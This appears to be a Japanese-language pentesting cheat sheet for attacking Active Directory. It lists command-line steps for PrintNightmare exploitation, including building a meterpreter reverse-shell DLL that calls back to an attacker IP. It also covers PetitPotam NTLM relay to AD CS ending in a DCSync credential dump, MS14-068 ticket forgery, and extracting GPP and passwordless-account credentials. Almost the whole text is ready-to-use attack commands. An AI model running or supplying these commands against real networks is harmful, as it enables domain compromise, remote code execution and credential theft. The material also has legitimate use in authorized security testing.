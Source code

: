 ### PrintNightmare 
RCE via Print Spooler - CVE-2021-34527, CVE-2021-1675
プリントスプーラーサービスの脆弱性を利用してリモートコード実行や権限昇格
- RPC確認
```shell
rpcdump.py @<DC_IP> | egrep 'MS-RPRN|MS-PAR'
```
- DLLペイロード作成 
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f dll > payload.dll
```
- SMB共有 
```shell
sudo smbserver.py -smb2support SHARE_NAME /path/to/payload_dll_folder/
```
- エクスプロイト実行
```shell
sudo python3 CVE-2021-1675.py <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> '\\\\<ATTACKER_IP>\\SHARE_NAME\\payload.dll'
```
### PetitPotam
NTLM Relay via MS-EFSRPC -> AD CS -> DC Cert -> DCSync
MS-EFSRPCプロトコルを悪用してNTLMリレーを行い、AD CS経由でDCの証明書を取得しDCSyncへ
- NTLMリレー (ntlmrelayx.py)
```shell
sudo ntlmrelayx.py -debug -smb2support --target http://<CA_SERVER_FQDN>/certsrv/certfnsh.asp --adcs --template DomainController
```
- PetitPotamトリガー
```shell
python3 PetitPotam.py <ATTACKER_IP_FOR_NTLMRELAYX> <DC_IP_TO_COERCE>
```
- 証明書からTGT取得 (gettgtpkinit.py)
```shell
python3 /opt/PKINITtools/gettgtpkinit.py <DOMAIN>/<DC_HOSTNAME>\$ -pfx-base64 <BASE64_CERT> dc_ticket.ccache
```
- TGTでDCSync 
```shell
export KRB5CCNAME=dc_ticket.ccache;
```

```shell
secretsdump.py -k -no-pass -just-dc-user <DOMAIN>/administrator "<DC_HOSTNAME>\$"@<DC_FQDN>
```
### MS14-068 
Kerberos PAC偽造
KerberosチケットのPAC（特権属性証明書）を偽造し、ドメイン管理者へ昇格する脆弱性 (PyKEK, Impacket)

## その他の設定ミス悪用
### PASSWD_NOTREQD フラグ
パスワードが不要に設定されているアカウントの悪用
- PowerView
```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD
```
- (空パスワード等でログイン試行)
### グループポリシー設定（GPP）によるパスワードの漏洩
グループポリシー設定に保存された暗号化パスワード（復号可能）の悪用
- CrackMapExec
```shell
crackmapexec smb <DC_IP> -u <USER> -p <PASSWORD> -M gpp_password
```